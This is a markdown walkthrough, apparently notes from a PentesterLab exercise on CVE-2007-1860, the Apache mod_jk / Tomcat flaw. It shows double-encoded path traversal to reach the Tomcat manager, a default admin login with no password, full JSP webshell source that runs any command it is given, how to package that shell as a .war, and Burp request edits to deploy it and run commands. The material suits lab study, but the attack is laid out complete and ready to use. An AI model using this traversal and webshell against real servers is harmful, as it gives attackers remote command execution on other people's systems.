 # Tomcat mod_jk

### Structure

There are two common ways to "proxy" requests from Apache to Tomcat:

- http_proxy: the requests are forwarded to Tomcat using the HTTP protocol;
- ajp13: the requests are forwarded to Tomcat using the AJP13  protocol. This configuration is used in this exercise using the Apache  module **mod_jk**. 

Depending on its configuration and on the request processed, Apache will decide:

- to process the request by itself:
   ![mod_jk apache](https://assets.pentesterlab.com/cve-2007-1860/mod_jk1.png)
- to pass the request to Tomcat for processing: 
   ![mod_jk tomcat](https://assets.pentesterlab.com/cve-2007-1860/mod_jk2.png)

For example, in the following Apache configuration snippet, all requests matching `/jsp-examples/*` will be forwarded to the Tomcat server `worker1` to be processed.

```
jkMount  /jsp-examples/* worker1
```



### How to find exact url

* try url `/test1234`  and if you get a **404 error** coming from **apache** then you see a page like this:

  ![apache 404](https://assets.pentesterlab.com/cve-2007-1860/apache404.png)

* however if you try `/examples/jsp/test1234` you will get a **404 error** coming from **apache tomcat**  and you see a page like this:

  ![tomcat 404](https://assets.pentesterlab.com/cve-2007-1860/tomcat404.png)

### Accessing /manager/html login

* access it by `/examples/jsp/%252e%252e/%252e%252e/manager/html`

  `%252e` is the double encoded format of `.` 

* default username is `admin` and no password

### .war webshell making

* create a file named index.jsp:

  ```jsp
  <FORM METHOD=GET ACTION='index.jsp'>
  <INPUT name='cmd' type=text>
  <INPUT type=submit value='Run'>
  </FORM>
  <%@ page import="java.io.*" %>
  <%
     String cmd = request.getParameter("cmd");
     String output = "";
     if(cmd != null) {
        String s = null;
        try {
           Process p = Runtime.getRuntime().exec(cmd,null,null);
           BufferedReader sI = new BufferedReader(new
  InputStreamReader(p.getInputStream()));
           while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
     }
  %>
  <pre><%=output %></pre>
  ```

  

* We can now create a directory name `webshell` and put our file (`index.jsp`) inside it:

```
$ mkdir webshell
$ cp index.jsp webshell
```

* Now we can build the war file using `jar` (provide with java):

```
$ cd webshell
$ jar -cvf ../webshell.war *
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
```

### Deploying the webshell

![Deploy](https://assets.pentesterlab.com/cve-2007-1860/form_deploy.png)

* Upload this .war payload:  [Webshell war Payload](webshell.war)
* we can't deploy after uploading the webshell because our url is double encoding. So we need to send the war file to right path manually.
* There are 3 simple ways to bypass this issue:
  - Building an html page that will send the war to the right URL.
  - Modifying the request using a proxy.
  - Modifying the page using a browser extension like webdeveloper (or "Inspect Element" in Chrome).

### Using proxy

* visit page `examples/jsp/%252e%252e/%252e%252e/manager/html` and intercept it in burpsuite

  Do intercept response of the GET request and in the `Set-Cookie` option set `Path=/manager/` to `Path=/`.

* After clicking on `Deploy` button:

  Edit the POST request path from:

  ```
  POST /examples/html/upload?org.apache.catalina.filters.CSRF_NONCE=115CE2E49D3DC3010EDF4C1A8F494A67 HTTP/1.1
  Host: ptl-34b2c0ae-11ba3519.libcurl.so
  ```

  to:

  ```
  POST /examples/%252e%252e/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=115CE2E49D3DC3010EDF4C1A8F494A67 HTTP/1.1
  Host: ptl-34b2c0ae-11ba3519.libcurl.so
  ```

### Using Webshell

* visit `/examples/%252e%252e/webshell/` and run your command